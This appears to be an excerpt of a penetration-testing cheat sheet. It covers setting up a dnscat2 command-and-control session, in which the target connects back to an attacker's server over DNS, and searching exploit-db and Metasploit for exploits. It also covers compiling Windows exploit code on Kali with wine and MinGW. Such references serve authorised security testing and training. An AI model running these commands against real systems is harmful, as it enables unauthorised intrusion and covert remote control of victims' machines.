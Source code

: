 # Run dnscat2:
ruby ./dnscat2.rb
dnscat2> New session established: 1422
dnscat2> session -i 1422

# Target Machine:
# https://downloads.skullsecurity.org/dnscat2/ https://github.com/lukebaggett/dnscat2-powershell/
dnscat --host <dnscat server_ip>



# BOF (Buffer Over Flow)/ Exploit
=================================
# Exploit Research
# Find exploits for enumerated hosts / services.

COMMAND							DESCRIPTION
searchsploit windows 2003 | grep -i local		Search exploit-db for exploit, in this example windows 2003 + local esc

site:exploit-db.com exploit kernel <= 3			Use google to search exploit-db.com for exploits

grep -R "W7" /usr/share/metasploit-framework/modules/exploit/windows/* 	Search metasploit modules using grep - msf search sucks a bit

# Searching for Exploits
# Install local copy of exploit-db:
searchsploit –u
searchsploit apache 2.2
searchsploit "Linux Kernel"
searchsploit linux 2.6 | grep -i ubuntu | grep local



# Compiling Windows Exploits on Kali
====================================
wget -O mingw-get-setup.exe http://sourceforge.net/projects/mingw/files/Installer/mingw-get-setup.exe/download
wine mingw-get-setup.exe
select mingw32-base
cd /root/.wine/drive_c/windows
wget http://gojhonny.com/misc/mingw_bin.zip && unzip mingw_bin.zip
cd /root/.wine/drive_c/MinGW/bin
wine gcc -o ability.exe /tmp/exploit.c -lwsock32
wine ability.exe  
